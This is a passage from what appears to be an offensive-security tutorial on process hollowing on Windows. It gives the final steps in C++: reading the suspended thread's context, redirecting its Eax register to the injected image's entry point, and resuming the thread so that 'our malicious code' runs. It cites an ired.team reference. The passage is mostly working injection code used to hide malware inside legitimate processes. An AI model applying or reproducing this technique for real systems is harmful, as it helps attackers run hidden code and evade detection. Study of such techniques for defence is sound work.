 By patching the entry point, we're effectively redirecting the thread's execution to the location of our injected code. Once the thread resumes execution, it will execute our malicious code rather than continuing with the process's original entry point.

```cpp
// create a pointer to a new context object
LPCONTEXT context = new CONTEXT();

// define the context flags
context->ContextFlags = CONTEXT_INTEGER;

// call get thread context
GetThreadContext(pi->hThread, context);

// update dest image entry point to the new entry point of the source image and resume dest image thread

// get the patched entry point
DWORD patchedEntryPoint = (DWORD)destImageBase + sourceImageNTHeaders->OptionalHeader.AddressOfEntryPoint;

// replace the entry point defines in the eax variable with the patched entry point
context->Eax = patchedEntryPoint;

// set the thread context
SetThreadContext(pi->hThread, context);
```

## Resume the target process
```cpp
// resume the suspended process
ResumeThread(pi->hThread);
```

## References
- [https://www.ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations#code](https://www.ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations#code)

<script type="text/javascript" src="http://cdn.mathjax.org/mathjax/latest/MathJax.js?config=TeX-AMS-MML_HTMLorMML"></script>
